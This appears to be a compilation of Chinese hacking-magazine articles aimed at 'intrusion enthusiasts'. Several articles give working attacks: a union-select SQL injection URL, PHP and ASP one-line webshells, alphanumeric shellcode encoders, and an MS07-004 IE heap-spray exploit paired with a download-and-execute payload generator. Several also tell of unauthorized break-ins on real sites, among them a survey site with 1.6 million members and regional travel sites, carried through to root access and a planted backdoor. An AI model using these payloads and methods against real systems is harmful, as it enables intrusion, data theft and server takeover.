回到首页，无意间看到了网站的版权是“宝宝影视—p2p网络电视 powered by ppwind”，一开始还真吓我一跳，以为 phpwind 又开发了一个有漏洞的影视系统了呢，哈哈哈。

到网络上搜索了一下，没找到官方网站，就到网站源码下载中心下载了一个 ppwind 1.3.1 的版本，然后在本地安装。我使用的是 WAPM 这款软件，可以很方便地在 Windows XP 上调试 PHP 程序。

安装的过程很简单，我本来打算不写的，但考虑到安装中的内容和以后的入侵有非常大的联系，所以就浪费一点宝贵的版面吧。点开始安装进入如图5所示的页面，这里显示了安装中非常重要的细节：有 MySQL 的账号和密码，还有 ppwind 所使用的前缀。大家注意，这里是最最重要的，因为关系到以后是否可以拿到账号和密码。


图5

点击下一步，ppwind 就开始安装了，图6是安装 ppwind 中使用的表，一共有 5 个；再点继续安装，出现了如图7所示的页面，要求我们填入管理员的账号和密码，账号我输入的是 cnbird，密码稍后再告诉大家，因为我们要用漏洞直接显示出来。


图6


图7

根据上面的测试，我们知道 BOBA.php 文件中的“$id”没有过滤，接下来看一下 MySQL 数据库中的表和用户密码对应的字段。如图8所示，我们可以清楚得到表名为 ppw_online_user，用户对应的字段是 username，密码对应的是 password。好了，知道了这些，我们在本地测试一下。提交 `http://127.0.0.1/ppwind/BOBA.php?id=1%20and%201=2%20union%20select%201,username,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,password,25,26 from ppw_online_user/*`，果然成功了，如图9所示，明文密码出现了。

我们先在本地测试一下。用注入拿到的漏洞进入后台以后，点击“添加模板”功能，在右边输入模板名字 `cnbird`，内容里面输入我们的一句话木马 `<?php eval($_POST[cmd])?>`，然后点提交，如图10所示，成功保存。


图8


图10


图9

下面我们访问一下 `http://127.0.0.1/ppwind/cnbird.php`，结果出现了空白画面，看来成功执行了。我们用一句话木马连接，如图11所示，连接成功后，本地就不用再继续下去了。


图11

有了以上信息，我们就可以登录后台了。由下载的程序，我们可以得到后台地址为 `admin/index.php`。用获得的用户和密码登录后台，在后台的“添加影片”中提供了上传图片功能，我分别试了几个最流行的上传 PHP 的方法都失败了。在此过程中，发现了上传的地址为 `up_img.php`，我们查看一下源代码，也许可以在这里找到突破口。看了半天，没发现漏洞，也许是我的水平太差了吧。

### 顺利拿下WebShell

没办法，继续分析吧，最后果然被我发现了一个漏洞，漏洞文件在 `ppwind/admin/template.php` 中的第 147-179 行，大家可以自己分析一下。

我们还是回到刚才有漏洞的地址，按照上面的方法顺利得到了 WebShell，如图12所示。

### 轻松提权顺利拿到Root

其实拿到 Root 的过程也有点运气的成分，我在 c99shell 木马中输入 `id`，结果如图13所示，吓了我一跳，懂点 Unix 的应该都知道，这表明它是直接以 Root 权限启动的。剩下的事我就不多说了，直接安装一个后门，添加用户即可。如图14所示，为我成功拿到 Root 后的截图。此漏洞的修补方法很简单，就是利用 `intval()` 把变量强制转换成 10 进制就可以了。


图12


图14


图13

##### 总结

本文入侵的整个流程是：从 PHP 的注入点开始，之后猜测表名和字段名失败 -> `load_file()` 失败 -> 分析源代码 -> 成功拿到用户密码 -> 分析后台 -> 拿到 WebShell，最后终于运气不错，直接拿到了 Root，并安装了后门。

整个过程就是这样了，希望大家都能看懂，都能学会。好了，本文就写到这里了，希望大家都能进入 Unix 这个神秘的领域。

---

适合读者：入侵爱好者  
前置知识：无

#### 发现注册型注入点


文／图 陈少勇

#### 记入侵“受访钱庄”

“注册型注入点”这个概念是我自己提出来的。所谓“注册型注入点”，即网站中的常规链接是没有注入点的，但是在用户注册成功登录网站后，在特定的条件下，会有注入点的链接产生。这种情况最常见于调查类网站。

以下是入侵“受访钱庄”www.51point.com 的过程，大家可以看看。最近该网站改版了，旧站入口是 original.51point.com，截图内容都是没有改版前的网站。从图1和图2可以看到，分别用啊D2.3和明小子3.5扫描 www.51point.com，没有发现注入点。

用我注册的用户名登录后，再扫描，还是没有注入点。注入点在哪呢？大家注意图3的右半部分，那些都是以前该网站的付费调查链接，虽然调查时间已过，调查不能进行，但调查的链接还是有效的。这些链接就是注入隐患。我把原先保存的一个调查链接放到啊D2.0的“SQL注入检测”看看，可以注入，如图4所示。找到 admins 表，读取一下字段，呵呵，27个管理员。尽管密码是 MD5 加密的，但还是有偷懒的管理员把密码设得傻瓜化。把加密的 MD5 值拷个放到 www.cmd5.com 破解，找到一个图1

图3

图4

图5

图2

密码是111111。

该网站的后台也不够隐蔽，用啊D的“管理入口检测”很轻松就找到了。进去看了一下网站的后台，发现是自己开发的非免费商业版代码。找到“会员管理->会员列表”，看到了注册会员的详细信息，如图5所示。其最新ID值是1630911，ID值又是连续的，也就是说该网站有163万注册会员。如果这些会员的信息被泄漏出去……真恐怖啊，我不敢想了。就玩到这里，通过差异备份可以拿到WebShell，继而拿到CMDShell。

成功入侵后我们来分析一下，原理性的东西就不说了，结论就一点：玩入侵就是一定要仔细。网站的调查系统应该是自己开发的，存在漏洞是难免的。关键是注入点产生的条件太特殊、太隐蔽了，估计网站管理员都很难发现。这里给管理员一点建议：无用的链接要及时删除，以免出现隐患。这里注册的会员信息都是真实的，所以这类网站一旦被入侵，会员信息被泄漏，损失将是非常大的。后来我又测试了几家付费调查网站，都或多或少存在这样的注册用户登录后、付费调查链接可以注入的问题。在写稿前，我已经给“受访钱庄”的管理员发了告知邮件，希望他们能够尽快把漏洞补上或正式启用新版网站，大家就不要再去搞了。

适合读者：入侵爱好者

前置知识：ASP

## 充分发掘GTS旅游系统0Day

文／图 舒城李宾 @【梦幻★剑客】

有个朋友今年大学毕业了，前不久在合肥一家旅行社找到一份网管工作，看他没在我面前说什么烦恼的事，想必过得比较舒坦。前几天找我帮他搞套ASP程序，必须是旅游信息发布程序。我打开IE先到安徽旅游网，看下省级旅游部门用的是什么系统，看了界面还不错哦，比较适合我个人的感觉。马上奔向中国站长站，找了几套旅游程序，准备回来本地看下界面和安全性，不能害兄弟啊！

### 突破防注入，拿WebShell

我下载了新思维和GTS系统（其实就是一个系统内核），在本地IIS一看，才知道安徽旅游网和我的这套系统一模一样，感觉界面真的很清爽，适合旅游行业！这套系统作者声称防SQL注入、数据库下载（正是这样，才导致系统安全崩溃！）、管理密码猜解、外部表单提交、危险数据提交等一系列安全措施，可是他忽略了网络安全是个整体，一个地方失误导致全盘皆输。

下面我们开始分析漏洞，首先看的文件是新闻文件news.asp，这个文件调用生成的新闻全部是HTML格式，就不要有什么指望了；再看Ticketinfo.asp，这个文件是机票预定文件，我在IE地址栏里加了个单引号，弹出和南方数据企业一样的对话框，说明有SQL防注入系统，这个我突破不了，如图1所示。找到源文件，看到Ticketinfo.asp里调用了“<!-- #include file=admin/system/Check_SI.asp-->”，这个文件是SQL防注入的，所以在接下来的分析过程中看到有文件调用它，就不用看了，没有办法注入。虽然如此，最后还是让我找到有几个文件没有包含这个文件，不晓得作者是疏忽还是怎么了，结果让我有机可乘，Pic_info.asp和Pic_class.asp这两个文件就存在SQL注入，有问题的代码如下。

```asp
<%
id=Trim(request("id"))
set rs=server.createobject("adodb.recordset")
sql="select name,pic_url,info,Tuijiang from pic where id='"&id&"'"
rs.open sql, conn, 1, 1
if not rs.eof then
  response.write (rs("name"))
  if rs("Tuijiang")=1 Then response.write ("<font color=red>&nbsp;荐</font>") end if
end if
%>
```

上面的代码明显存在注入，id这个变量只是过滤了两边空格，就带进SQL查询，造成注入漏洞！可以说是程序员的小失误，成全了SQL注入。接下来我们就请出大名鼎鼎的啊D，自己添加master表名后，很快就猜解出了密码和账号，如图2所示，这样就轻松进入了后台管理。

图1

图2

在后台找上传的地方，再找找看有没有数据库备份功能，结果找了半天也不见有数据库备份，这就需要有上传漏洞，不然WebShell就不好拿了。想到这让我有点心寒。在添加新闻的地方有上传功能，可惜我上传了无数次`asp`、`asa`、`cer`、`cdx`，甚至抓Cookies上传都一一失败，只能上传`png`、`gif`和`jpg`，真的很郁闷，如图3所示。

图3

继续找上传的地方，在图片管理处又发现了上传地址，结果经过反复上传，还是无法突破，系统只允许`jpg`、`gif`格式，别的格式一律不许上传。这下完蛋了。但我还是不死心，继续不断地翻看上传源代码，希望能有所收获。打开`database`看了下数据库是`asp`格式的，这时我闪过一个念头——插一句话木马。马上来了精神，继续战斗。把数据库的后缀名改成`mdb`格式，看看里面有些什么表，发现后台添加的信息全部在数据库里面，看到这里我马上到后台在新闻添加中写入一句话木马`<%execute request("value")%>`，如图4所示。回到数据库看看有没有插进去，结果成功插入。这个时候还不能高兴太早，有的时候小马插进去了，但有的程序做数据库的时候建了一个防下载表，里面写入ASP代码，既防下载，又防插马。此时浏览数据库地址时，需要把数据库名称中的`#`替换成`%23`，看到“类型不匹配：'execute'”就说明一句话木马成功寄存，之后就很简单了，用客户端连接就得到WebShell了，之后就是小马带大马，相信大家看黑防这么久都会了。

图4

至此，这个系统就基本崩溃了，但是这种方法需要破解密码还要进后台，真的很烦琐，有的时候密码破解不了，岂不是拿不到WebShell？其实不然，只要我们理解了拿WebShell的原理就能想到另外的方法，如果你不知道的话，请继续跟我来吧！

### 前台巧妙突破，获取WebShell

既然在后台可以插一句话得到WebShell，那么前台有没有可能呢？看到网站主页有注册用户的地方，这意味着可以向数据库里面插写了。带着激动的心情，开始注册用户。因为用户名和密码处不准插入`* % # ! - & $`类似的字符，所以我就在通讯地址处插入一句话木马，提交后结果如图5所示。

图5

不管在什么地方都不能插入一句话，当时看到这样就没有再继续了。不要说我没有黑客精神，当时搞了一段时间真的有点累了，反正都拿到WebShell了，就关了IIS，玩了会游戏，觉得没有什么意思，还是再看看这套系统，说不定会有意外的收获。后来想到将`<%execute request("a")%>`加密后变成“十攒数盒整熄焕敛珐∨=卜>`”，这其中可没有前台限制的非法字符哦。呵呵，自己真笨，怎么刚才没有想到呢。带着120%信心，重新注册了用户，具体表单项目如图6所示。

在工作和通讯地址中插入加密后的一句话木马，点提交就不报错了，成功注册用户。这意味着一句话插入了数据库，经测试成功上马，这里我就不截图了。至此，我们就再次突破了GTS系统！

图6

### 快速秒杀GTS，轻取WebShell

最后介绍一个最简单、最快捷获取WebShell的方法。这套系统有一个留言意见的功能，实际上就是留言反馈，这就可以利用了。在这里写入加密的一句话木马，步骤很简单，如图7所示。这种方法实际上可以说是秒杀了这套系统，直接写入木马，用客户端连接就能得到WebShell，如图8所示。

### 网络实战

本地测试成功了，我又来到了网络战场，毕竟那里才是锻炼我们的好地方。我选中了河南焦作一家旅行社，这家旅行社在河南旅游网中做了二级目录，如果拿下这个旅行社就等于拿下了河南旅游网。首先看看默认的数据库地址有没有改，结果证明国内的安全形势不怎么样——没有改，如图9所示。那我就不客气了，直接用上面说的第三种方法搞定它，没有任何问题地拿到了WebShell，如图10所示。

图7

图11

服务器硬件配置很高，硬盘有3个分区，D、E都是232G，总的加起来估计有900G，海量的容量啊！按道理，每个分区都应该有很多空间，但只有几个G的剩余空间，我很好奇里面都有什么呢？打开一看才晓得里面有很多的电影和电视剧。我开始以为会不会有电影网站放在上面，结果找了一圈也没发现！我想到用FTP账户下载，但是我在网吧装FTP太麻烦！想到有很多新手朋友对WebShell的权限还不是很了解，我就简单地说一下。WebShell是以IIS来宾账户访问的，而这个账户属于Guests组，限制更多，所以权限是很低的！我想用WebShell（对符号没有访问权限）下电影怎么办呢？现在只要右击鼠标，选择“安全”选项，将IUSER来宾账户赋予完全控制的权限就行了！如图12所示。这样，WebShell就有访问权限了！

图8

图9

图12

图10

再看看有没有Serv-U，结果Serv-U目录没有权限访问，再看PCAnywhere目录可有权限，结果成功下载了cif文件作为最后提权的希望，但还用不上。不死心之下，我用Shell自带的端口扫描器扫了下，结果发现3389和43958都是开放的，如图11所示。这下看到了希望，这台服务器开放的服务太多了，提权有望！最后用Shell自带的ASP版提权成功！得到权限，连上3389，服务器沦陷。我进去看了看，发现服务……

##### 总结

这套系统在网络上使用的还是比较广泛的，很多旅游站采用的都是这套系统。我后来又测试了安徽旅游网，结果拿下了WebShell，提权成功后，可惜终端连接时提示已经是最大允许数，所以就没再继续下去。不知大家有没有发现一个问题，如果把默认数据库地址改掉的话，我们就没有办法了！不过以目前国内网络安全来看，修改默认数据库的管理员还是不多的，再说系统默认数据库格式已经“很安全了”——`/admin/database/#tourdata.asp`！到这里，这套系统声称的种种脚本安全措施已经荡然无存。希望广大管理员看到文章能及时修补漏洞，以免造成危害！

适合读者：入侵爱好者  
前置知识：汇编语言

## 菜鸟版Exploit编写指南之二十一

## 打造自己的ShellCode

文/图 H.S.T.

仔细阅读本文，你将可以学到以下知识：

- 溢出初学者获取现成ShellCode的常规方法；
- WinHex、IDEMasm、Stud_PE、Windbg（VC）、IDA Pro等几款工具在ShellCode分析工作中的灵活搭配运用。

## 引言

缓冲区溢出是一个很讲究学习方法的技术。对于初学者而言，先学会灵活使用各种分析工具，比相对生硬地从教程上学习ShellCode编写更容易上手和理解。面对现有的各种Exploit代码和漏洞攻击工具，我们采取的一般处理步骤如图1所示。本文主要介绍的是如何对ShellCode进行分析，因此，其他的就不赘述了。

## 获取现成的ShellCode的常规方法

- 从别人的Exploit代码中直接拷贝。前提是网上有人公布了某漏洞的利用程序源代码或某特定功能的ShellCode，如图2所示。
- 直接抓包获取。很多时候，网上只公布了一些漏洞利用工具，我们可以通过截获这些工具运行时与目标机器之间的通信报文，加以逐条分析，进而提取其中的ShellCode。

```c
BYTE BindShell[]=
{
  "\xeb\xfe"
  // shellcode ...
};
```

图2 Exploit代码中的ShellCode

这种方式得到的ShellCode原本以十六进制形式存在于文件中，因此我们得到的原始数据也是十六进制的。总之，不管是哪种形式的ShellCode，一般都经过了编码。如果直接进行反汇编分析的话，很难看出其中的有用信息。因此，我们有必要通过各种工具对我们得到的原始数据进行一定的处理，然后进行分析就容易多了。因此，我们将用到下面的工具和技巧。

## 几款重要的ShellCode分析工具介绍

下面列举一些我们在分析ShellCode时将使用的几个重要工具，具体包括如下：

- WinHex：优秀的十六进制编辑工具，它的重要功能之一是把二进制数据直接生成C数组，如图4所示。
- IDEMasm：不错的Win32汇编开发工具，集成了Masm的编译、连接功能，同时还可引入SoftICE进行源代码调试，如图5所示。
- Stud_PE：大家都熟悉的PE文件分析工具，该工具功能众多。我们主要用到其中的壳分析和段属性编辑功能。
- Windbg：Windows自带的调试工具，本机上可调试用户态进程。
- VC：这就不用介绍了吧？
- IDA Pro：目前为止最优秀的静态反汇编工具之一。

OK，工具介绍完毕了，下面我们就结合实例来讲讲如何分析特定的ShellCode。

## ShellCode实例分析

根据前面的两种ShellCode获取方法，我们将可能分别得到ASCII形式与十六进制形式的ShellCode，因此，接下来我们也将针对这两种形式来分别谈谈相应的处理方法：

- 位于源代码中的ASCII形式ShellCode。这里要引用的例子是添加用户X（密码也为X）的ShellCode，部分代码如图6所示。

```c
unsigned char sc[] =
"\x33\xc9"
"\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x3E\x01\x80..."
// AddUser:x Pass:x
"\xF0\x17\x7A\x16\x96\x1F\x70\x7E\x21\x96..."
```

图6：添加用户X的部分ShellCode

AddUserX.cpp通过VC进行编译后，按F10单步执行，不久即可进入ShellCode，很容易执行到如下的一段解码代码，如图7所示。

图7：ShellCode解码部分

等到解码完毕，后面就找我们熟悉的明文指令了，部分指令如图8所示。但是这样简单枯燥的指令，我们仍然很难理解其实际意义，需要借助IDA Pro的帮助。

图8：部分解码后指令

不过，IDA Pro只能反汇编十六进制数据，因此我们要进行以下处理：

- 在不关闭VC调试器的前提下，打开WinHex，选择“Tools->Open RAM”，在“Edit main memory”窗中选择“AddUserX”这个进程，最后双击“Entire Memory”，会弹出该进程的整个用户态内存数据，如图9所示。
- 由于已经解码，我们可以直接在内存中搜索ShellCode开头几个字节33 C9 EB 10，这个序列一般是唯一的。根据XOR编码密钥（这里是0x96），很容易确定ShellCode的结尾（如08 00），因此就可以直接在内存中选定整个解码后的ShellCode，如图10所示。
- 通过WinHex的“Edit->Copy block->into new file”命令将解码后的ShellCode导出，另存为一个十六进制数据文件Decoded.dat。
- 通过IDA Pro对Decoded.dat进行反汇编，先设置“IDA option”中的“number of opcode bytes”为8，打开Decoded.dat后，单击“右键->Code”获得代码。

这些都是解码之后的代码，过程、标记都很详细，分析起来就很方便了。比如原来是添加用户名X，我们要修改为Y的话，就可以找到相关语句，直接改就行了，如图12所示。

诸如此类的操作，只要有耐心，在IDA下很容易实现，而在VC下就不容易看出来。OK，上路之后，其他的就不多讲了，大家自己分析就是了。接下来，我们看看另一个ShellCode的形式。

- 位于工具中的十六进制ShellCode。这里要引用的例子是开13579端口的ShellCode。由于是十六进制形式，不能用VC直接编译，需要进行以下处理才可以。

- 用IDEMasm新建一个简单的模板可执行文件，其ASM源代码如图13所示。  
  显然，这里只有一句话是重要的：`saNOP db 1000 dup(90h)`，其作用就是创建1000字节的空指令空间来存放我们的ShellCode。编译连接之后，生成可执行程序mod.exe。用Stud_PE.exe编辑mod.exe的代码段，将该段设置为可写，如图14所示。
- 用WinHex分别打开mod.exe和包含了十六进制数据ShellCode的数据文件，然后将ShellCode拷贝到mod.exe代码段开始的地方，注意要用Write方式，如图15所示。
- 另存为mod2.exe后，打开Windbg，在“File->Open Executable”中选择mod2.exe，如图16所示。
- 进入Windbg的CMD窗口，此时mod2进程已经被调试器加载。代码段在内存中一般是从401000开始。输入命令`u 401000`，可以看到ShellCode前面若干字节的反汇编代码，如图17所示。
- 在401000处设置断点，输入命令`bp 401000`，然后输入命令`g`，使其跳转到ShellCode处。否则，代码只能停止在Windbg自己设置的断点上。
- 一直按F10，运行完前面的解码指令，仍然使用WinHex读取内存数据，将该数据存为文件，通过IDA Pro来反汇编和修改就可以了。

ShellCode的整个分析过程就介绍到这里了，重在方法以及工具的使用。至于具体细节，大家按照文中所述自己体会一遍就很清楚了。文中涉及到的工具，除了IDEMASM外，其余都可以在网上下载到。

## 小结

回顾本文，我给大家介绍了一套ShellCode分析的综合工具及使用方法，希望对初学的朋友有所帮助。其实只要大家在平时的学习中多体会，相信也会摸索出属于自己的一套方法的。

## 菜鸟版 Exploit 编写指南之三十二：编号全数字字母 ShellCode

- 适合读者：入侵爱好者
- 前置知识：汇编语言、C语言  
- 文/图：HST


漏洞利用中，ShellCode 的编码技术是大家应该掌握的。一是为了增强 ShellCode 的隐蔽性，使得无论是人还是防护软件都难以分析；二是不少漏洞程序有较强的字符过滤机制，使很多字符不能加入到 ShellCode 中。以前的编码方式如 XOR、拆分编码、分段编码等，并不总是注重编码后字符限制。本文主要介绍全数字字母的 ShellCode（AlphaNumeric ShellCode），使 ShellCode 只包含 A-Z、a-z、0-9 字符，便于隐藏于特定输入数据中，适用于 Web/FTP/邮件服务漏洞场景。

| 组成 |
|---|
| 解码头部 |
| base16 编码的 ShellCode |

我们对完成真正功能的 ShellCode 进行 base16 编码，编码结果是全数字字母，前面的解码头部也保持全数字字母。由于解码指令短且基本固定，因此采用符合要求的指令完成。接下来说明 base16 编码：把每个二进制字节拆分为 2 个数字或字母，与具体指令无关。例如 ShellCode 中某字节 SC[i] 通过编码变为 A、B（均为字母或数字），可用变换公式：

SC[i] xor A = 58H * B

其中 58H 为常数，A 与 B 可通过双重循环生成。解码时 A、B 已知，则：

SC[i] = (58H * B) xor A。

### Alphanumeric ShellCode 编写思路

从理论上讲，若将 ShellCode 全部替换为对应数字字母编码的指令即可满足条件。常见指令中不少二进制形式本身可映射到字母或数字，如 `inc eax`、`inc ebx`、`inc ecx` 等。类似 `push reg`、`pop reg`、`dec reg`、部分 `xor` 指令也可满足要求。此法虽可行，但实现复杂、维护困难，功能扩展时修改成本高，因此编码方式需要进一步改进。本文采用分段形式实现。

### 编写实例

说完基本思路，接下来看看具体实现。代码包括以下四部分。

- 1）对原 ShellCode 指令进行 base16 编码（原 ShellCode 为先前编写且未编码部分）。

```cpp
int nLen, i;
int A, B;
unsigned int t1, t2;
nLen = strlen((char *)RealShellcode);
// RealShellcode 是未编码的
for (i = 0; ... ) {
    ...
}
```

```cpp
while (true)
{
  // req|sc... 下面就是一个双重循环，直接得出 A 和 B;
encode:
  if (i >= nLen) break;
  for (A='0'; A<'{'; A++) {
    if ((A > 0x39 && A < 0x41) || (A > 0x5A && A < 0x61)) continue;
    for (B='0'; B<'{'; B++) {
      if ((B > 0x39 && B < 0x41) || (B > 0x5A && B < 0x61)) continue;
      t1 = 'A' * 0x58; ...
      t2 = RealShellcode[i] ^ 'B'; ...
      if (t1 == t2) { printf("%c%c", A, B); i++; goto encode; }
    }
  }
}
```

```asm
41                inc ecx
32 42 37          xor al, byte ptr [edx+37h]
30 42 37          xor byte ptr [edx+37h], al
42                inc edx
68 54 57 55 51    push 51555754h
58                pop eax
35 54 57 55 51    xor eax, 51555754h
34 63             xor al, 63h
38 41 37          cmp byte ptr [ecx+37h], al
75 62             jne ...
```

以上的详细代码具体请见 `decode.cpp`。大家可以看到，代码中需要查找一个 2 字节的结尾标记（如 `cQ`），这个结尾标记在编码后的 ShellCode 中是绝对不能存在的，否则将出现截断现象。

- 3）结尾字符过滤代码，过滤掉结尾字符，部分代码如下所示（`filt.cpp`）。

```cpp
int i, j;
BOOL bOK;
for (i='0'; i<'{'; i++) {
  bOK = TRUE;
  if ((i>0x39 && i<0x41) || (i>0x5A && i<0x61)) continue;
  for (j=0; j<strlen((const char*)alphasc); j++) {
    if (alphasc[j]==i) { bOK=FALSE; break; }
  }
  if (bOK==TRUE) printf("%c\n", i);
}
```

利用上面的代码生成的 AlphaNumeric ShellCode 如图 1 所示。但这样的结果还不能直接使用，下面再说说解码头部的编写。


- 2）解码头部。这部分汇编指令算法前面已经提到，对应的二进制代码必须是数字或字母，部分实现代码如下所示。

```asm
50                push eax
5A                pop edx
68 67 75 61 69    push 69617567h
58                pop eax
35 67 75 61 69    xor eax, 69617567h
48                dec eax
34 43             xor al, 43h
30 42 36          xor byte ptr [edx+36h], al
52                push edx
59                pop ecx
6B 41 37 58       imul eax, dword ptr [ecx+37h], 58h
41                inc ecx
33 41 37          xor eax, dword ptr [ecx+37h]
...
```

- 4）测试代码，具体如下所示（`test.cpp`）。

```asm
__asm {
  xor ecx, ecx
  lea eax, sc
  call eax
}
```

### 小结

本文介绍了全数字字母 ShellCode 的编写思路，并给了相关实例。希望对感兴趣的朋友能起到抛砖引玉的作用。这些知识还是比较基础的，要想灵活利用各个漏洞，上面的方法还需要结合实际情况灵活改进才可以。

---

## 菜鸟版 Exploit 编写指南之三十三：MS07-004 分析和利用

- 适合读者：溢出爱好者，漏洞爱好者
- 前置知识：汇编语言基础，调试基础，缓冲区溢出原理
- 文/图：gyzy【江苏大学信息安全系 & EST】


相信大家对去年的 MS06-055 还记忆犹新吧？那是由于微软的矢量标记语言 VML 中的 Method 变量，IE 未对其长度进行检查，导致了一个栈溢出漏洞。2007 年的新年钟声刚刚敲响，又一个关于 VML 的漏洞曝光了，`VMLRecolorInfo::InternalLoad()` 中的 recolorinfo 方法中存在整数溢出。现在 milw0rm 第一时间公布了关于此漏洞的 POC 代码，无疑为我们的分析过程提供了方便。我们可以从二进制补丁对比中定位到出现问题的代码，微软的补丁中增加了一个对 eax 检查的指令 `cmp eax, 0x5d1745d`，如图 1 所示，相关代码如下。

eax 是从 HTML 代码中得到的，由于 32 位寄存器所能表示的数的范围是有限的，所以假如我们提交一个很大的数，那么乘以 2Ch 以后就反而变小了。6FF176BA 中的代码调用了 malloc 申请堆内存，所以这个漏洞本质上来说是因为整数溢出而间接导致了堆溢出。那么我们如何定位这一段代码呢？我们首先用 OD 在上面这段代码中下硬断点，在命令行中输入 `he 7FF176AD`，然后打开 POC 页面，很快 OD 断了下来，如图 2 所示。


图1


图2

```asm
.text:6FF176A7 loc_6FF176A7:
mov eax, [esi+8]
add eax, [esi+4]
test eax, eax
jle short loc_6FF176C4
imul eax, 2Ch
push 10h
push eax
call sub_6FECFEF4
pop ecx
pop ecx
mov [esi+14h], eax
```

然后我们跟进 6FECFEF4 处，得到了 malloc 返回的指针 003A8320，在这个地址下写断点 `hw 003A8320`，断在如图 3 所示的地址处。

push 0B、pop ecx 和下面的 rep movs 这三条指令，是将 `rgb(x,x,x)`（参见后面的 Exp）的颜色参数经过一定的算法（下文简称 RGB 算法）算出的结果拷贝到堆中，每次 0B 字节。recolorinfo 中共有五个参数，分别是 tocolor、lbcolor、forecolor、backcolor 和 fromcolor，需要经过 RGB 算法得出，0B×5=2C。由此我们可以猜测下面每个 recolorinfoentry 都会拷贝 2C 个字节到堆中。我们来看看 OD 下方的数据窗口来验证一下我们的猜测，果然是从 003A83FC 处开始，每 2C（十进制的 44）字节的数据都是重复的。


图3

然后我们按下 F9 键让 IE 跑起来，OD 提示有异常，如图 4 所示。很明显，某些函数指针被覆盖了！我们在内存中搜索 `6E006F00`，在 `00010101` 的地方发现了这串序列，而 `00010101` 就是出现在堆内存中的数据。假如我们能将指针指向我们的 ShellCode，嘿嘿……


图4

那么我们如何利用这个漏洞呢？它和普通的堆溢出的利用方式有点不同。传统的堆溢出是通过二次 Alloc 或 Free 改写 RtlEnterCriticalSection 或者 Unhandled Exception Filter 等指针来获得代码的执行权，而 IE 里则可以通过一种“暴力扩张堆”的方法来获得代码执行权，就是连接成 `05050505+ShellCode` 这样的形式。堆是从低地址向高地址增长的，再看看堆中被我们覆盖的数据，假如我们 Call 的不是 `[00010101]` 而是 `[01010100]`，那就正好跳转到了 `05050505` 这个地址。在一连串的 `Add eax, 5050505h` 指令之后，这些指令无关紧要，并且最终跳入了我们的 ShellCode 中执行。堆中的数据都是由 recolorinfo 中的一些参数得到的，具体的算法我也没有细细地跟，头大啊。

另外，这个漏洞因机器而异，不会有 100% 的成功率，相信看到现在读者朋友也该明白。然后，我们把 ShellCode 换成自己的 down&exec 的。关于怎么写 ShellCode，大家可以翻翻黑防以前的文章。但是有一点，就是记得前面要加 4 个 nop，否则可能出现失败的情况，因为连续的 050505 会破坏你的 ShellCode，需要几个 nop 缓冲一下。我在中文 Windows XP SP2 + IE6 下测试成功了，测试代码如下，测试结果如图 5 所示。


图5

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
<object id="VMLRender" classid="CLSID:10072CEC-8CC1-11D1-986E-00A0C955B42E"></object>
<style>
v\:* {behavior:url(#VMLRender);}
</style>
</head>
<body>
<SCRIPT language="javascript">
shellcode = unescape("%u9090...%u8065");
bigblock = unescape("%u0505%u0505");
headersize = 20;
slackspace = headersize + shellcode.length;
while (bigblock.length < slackspace) bigblock += bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length - slackspace);
while (block.length + slackspace < 0x40000) block = block + block + fillblock;
memory = new Array();
for (i=0; i<350; i++) memory[i] = block + shellcode;
</script>
<v:rect style="width:120pt;height:80pt" fillcolor="red">
<v:recolorinfo recolorstate="t" numcolors="...">
...</v:recolorinfo>
</v:rect>
</html>
```

另外，为了方便黑防读者的测试，我写了一个生成器，填充的是 down&exec 的 ShellCode，填入要下载的程序网址点生成即可。假如一切顺利，程序将会被执行，希望大家不要用于非法用途啊！需要扩展功能的可以自己改 ShellCode，通过更改 RGB 算法中的三个参数可以更加精确地定位 ShellCode，假如读者朋友有什么好的思路或者方法，一定要告诉大家。

另外，JavaScript 加密可以躲过杀毒软件的追杀，瑞星卡卡有个防漏墙功能可以阻止 IE 执行代码，在一定程度上确实让相当一部分网马没辙了。在这里也推荐广大网民使用，以免中招。但世界上没有不透风的墙，假如我们在 ShellCode 中将代码注入其他进程下载执行，那么这个防漏墙就形同虚设了。我的博客 www.gyzy.org 就有这样的 ShellCode，有兴趣的读者可以改进一下这个 ShellCode，生成器如图 6 所示。

文章写得比较匆忙，错误纰漏在所难免，权当抛砖引玉。如果大家有任何问题，欢迎登录黑防论坛与我交流。


图6

---

## IPMsg 溢出的简单分析

- 适合读者：溢出爱好者、漏洞爱好者
- 前置知识：VC++、调试基础、缓冲区溢出原理
- 文/图：空彤 / ww0830


IPMsg 是一款局域网内的即时通信软件，可运行于多种操作平台，不需要服务器支持，十分小巧方便，可快速地传送文件/文件夹，并且公开源代码，可以任意修改、补充。因为如此方便，实验室都使用它来快速传输文件和文件夹。有一天，突然想到它会不会有什么漏洞影响安全呢？既然有源代码，就简单地分析了一下。

从 http://www.ipmsg.org/ 上下载最新的 2.06 版本代码，解压后发现带有 VC 6.0 的工程文件 `IPMSG.MDP`，双击后 VC 自动打开并转换为工程模式。首先检查一下工程里面是否有 strcpy 函数吧。打开“Edit”菜单 -> “Find In Files”输入 strcpy，哇，居然有这么多，如图 1 所示。然后就一个一个地看，检查会不会有远程溢出的危险。


图1

检查后发现作者都做了仔细检查，要么源数据不会超长，要么拷贝的是本地数据，溢出也没有用。

strcpy 看来没戏了，再看看其他危险函数吧。搜索 sprintf，结果中出现了对很多 wsprintf 的调用，同样对出现的位置一个一个分析。很多是出现在安装程序 `INSTALL.CPP` 里面，还是看看更感兴趣的通信文件里出现的代码吧！

一个个分析下来，在 `LOGMNG.CPP` 里面终于发现了可能会被溢出的地方，在文件的第 60 行，为函数 `BOOL LogMng::WriteMsg(LPCSTR msg, ULONG command, ShareInfo *shareInfo){}`。该函数是用来记录通信日志的，其完整代码如下，我加上了自己的注释。

```cpp
BOOL LogMng::WriteMsg(LPCSTR msg, ULONG command, ShareInfo *shareInfo)
{
    char buf[MAX_BUF * 2] = "";
    strcat(buf, Ctime());
    // 省略：根据 command 拼接日志标志与消息
    if (command & IPMSG_BROADCASTOPT) strcat(buf, BROADCASTLOG_MSGSTR);
    if (command & IPMSG_AUTORETOPT) strcat(buf, AUTOREPLOG_MSGSTR);
    if (command & IPMSG_MULTICASTOPT) strcat(buf, MULTICASTLOG_MSGSTR);
    if (command & IPMSG_ENCRYPTOPT) ...
}
```

## IPMsg日志缓冲区溢出分析

```c
// 如果采用了加密
strcat(buf, ENCRYPT_MSGSTR);
// 在buf后加上"(RSA)"
